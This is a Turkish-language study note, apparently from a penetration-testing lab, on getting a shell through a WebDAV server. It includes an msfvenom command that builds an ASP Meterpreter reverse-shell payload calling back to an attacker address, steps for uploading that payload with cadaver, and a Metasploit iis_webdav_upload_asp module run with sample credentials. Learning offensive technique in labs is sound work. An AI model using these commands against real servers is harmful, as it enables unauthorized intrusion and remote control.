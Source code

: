 
## WebDAV msfconsole
#webdav-msfconsole

## 1. multihandler dinleyici ile
## 2. direk msfconsole ile
### Zaten yukarda sisteme asp formatında payload yukleyebileceğimizi enumeration yapmıştık.
## msfvenom ile şimdi bu asp payloadı oluşturacağız

![[Pasted image 20240201001232.png]]
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.5.2 LPORT=1234 -f asp > shell.asp
```

## ÇOK ÖNEMLİ NOT
>[!warning] Şimdi karşı tarafın 32 bitlik architecture'a sahip bir işletim sistemimi kullanıyor yoksa 64 bitlik mi kullanıyor bilmiyorsak her iki durumda da çalışacak x86 seçeneği yani 32 bitliki seçmekte fayda var. 
![[Pasted image 20240201001805.png]]
### Bunu cadaver ile yine göderiyoruz put komutu ile

![[Pasted image 20240201001924.png]]

![[Pasted image 20240201002324.png]]
### Multihandler listener run ile başlatıldı. Payload isimlerinin msfvenom ile aynı olmasını LPORT LHOST aynı mı dikkat.

![[Pasted image 20240201002434.png]]
![[Pasted image 20240201002450.png]]
![[Pasted image 20240201002509.png]]

---

## 2. direk msfconsole ile
![[Pasted image 20240201002648.png]]
```
msf6> search iis upload
```
```
msfconsole -q
use exploit/windows/iis/iis_webdav_upload_asp
set RHOSTS 10.0.17.27
set HttpUsername bob
set HttpPassword password_123321
set PATH /webdav/metasploit%RAND%.asp
exploit

```
### Burada directory PATH ismine dikkat edelim başına /webdav/ekliyoruz
![[Pasted image 20240201000843.png]]![[Pasted image 20240131235333.png]]